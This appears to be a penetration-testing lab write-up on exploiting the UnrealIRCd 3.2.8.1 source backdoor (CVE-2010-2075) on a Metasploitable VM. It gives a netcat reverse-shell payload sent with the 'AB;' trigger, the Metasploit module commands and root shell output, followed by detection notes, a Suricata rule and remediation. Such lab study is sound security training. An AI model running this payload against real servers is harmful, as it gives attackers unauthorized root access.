



# UnrealIRCd 3.2.8.1 — Backdoor (CVE-2010-2075)

Same story as vsftpd: not a logic bug, but poisoned source. Sometime between
November 2009 and June 2010 someone swapped the legitimate UnrealIRCd tarball on
the official download server for one carrying a backdoor. Anyone who grabbed and
built that version in that window ended up with remote access baked into their
server.

## Target
- IP: 192.168.56.102
- Port: 6667 (IRC)
- Service: UnrealIRCd 3.2.8.1

## CVE
CVE-2010-2075

## Attack type
Backdoor planted in the source code (supply chain compromise)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mechanism

The backdoor treats any message starting with `AB;` as a command. Whatever
follows that prefix runs directly as a shell command on the server, no auth
needed. All it takes is sending that message over a plain TCP connection to port
6667.

---

## Step 0: Confirm the service

```bash
nc -nv 192.168.56.102 6667
```



The server answers as `irc.Metasploitable.LAN`, so the IRC service is up on 6667.
(The connection drops after a while with a "Ping timeout" — a bare `nc` session
doesn't answer the IRC `PING`, which is expected and doesn't matter here.)

---

## Method 1: Manual exploitation

### Step 1: Start a listener

```bash
nc -lvnp 4444
```

### Step 2: Send the payload

```bash
echo -e "AB; nc 192.168.56.101 4444 -e /bin/sh" | nc 192.168.56.102 6667
```

`AB;` is the trigger the backdoor looks for. Everything after it runs as a shell
command, which in this case fires a reverse shell back to the listener.

### Result



whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


---

## Method 2: Metasploit

### Commands

```bash
msfconsole
search unrealircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Result



[+] The target appears to be vulnerable. UnrealIRCd detected via IRC commands
[*] Meterpreter session 1 opened
meterpreter > shell
whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


Meterpreter doesn't take `whoami` as one of its own commands here (that's
`getuid`), so I had to drop into a real shell with `shell` before the standard
Linux commands worked.

---

## Detection (blue-team view)

- Messages on the IRC port that start with `AB;`. That's not part of normal IRC, and pattern matching picks it out easily.
- An outbound connection from the IRC server to an external IP and port, which is the reverse shell.
- A process like `nc` or `bash` spawning out of the IRC daemon. Odd one out in the process tree.
- A freshly registered IRC user immediately followed by a spawned shell process.

## IDS signature (Suricata example)

alert tcp any any -> any 6667 (msg:"UnrealIRCd backdoor command attempt"; content:"AB;"; sid:9000003;)


## Remediation

- Don't run UnrealIRCd 3.2.8.1. Check the checksum of anything you download before building it, and stick to official, signed repos.
- Upgrade to a version without the backdoor.
- A firewall rule that limits the IRC port to trusted IPs only.
- Watch for unusual content in IRC traffic.

## Screenshots
- `03_unrealircd_banner.png`
- `03_unrealircd_root.png`
- `03_unrealircd_metasploit_root.png`
